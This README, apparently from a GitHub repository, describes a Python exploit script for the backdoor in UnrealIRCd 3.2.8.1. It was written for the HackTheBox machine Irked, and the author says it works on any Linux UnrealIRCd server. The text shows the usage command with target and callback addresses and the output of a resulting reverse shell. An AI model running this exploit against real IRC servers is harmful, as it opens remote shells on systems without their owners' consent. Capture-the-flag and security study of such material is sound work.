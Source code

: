 ## Description

Exploit an [UnrealIRCd server](https://www.unrealircd.org/). Version 3.2.8.1 contains a backdoor which can provide RCE. There's already a [Metasploit exploit module](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor) for the vulnerability, but I didn't really love the scripts I found out there for it. So I wrote my own.

Developed this script for [Irked from HackTheBox](https://www.hackthebox.eu/home/machines/profile/163), it should be generic to any UnrealIRCd deployment on Linux, provided that a mkfifo reverse shell works on the target.

## Usage

Call the python script with four arguments to identify the target ip and port, and the callback ip and port you want to use. Then, wait and get a shell:

```
root@kali# ./unreal_3.2.8.1_exploit.py 10.10.10.117 6697 10.10.14.14 443
[*] Connecting to 10.10.10.117:6697
[*] Sending payload
[+] Payload sent. Closing socket.
[*] Opening listener. Callback should come within a minute
bash: cannot set terminal process group (634): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

## References:
- https://0xdf.gitlab.io/2019/04/27/htb-irked.html#script-it
- https://gitlab.com/0xdf/ctfscripts/-/tree/master/unreal_irc_3.2.8.1_shell.py

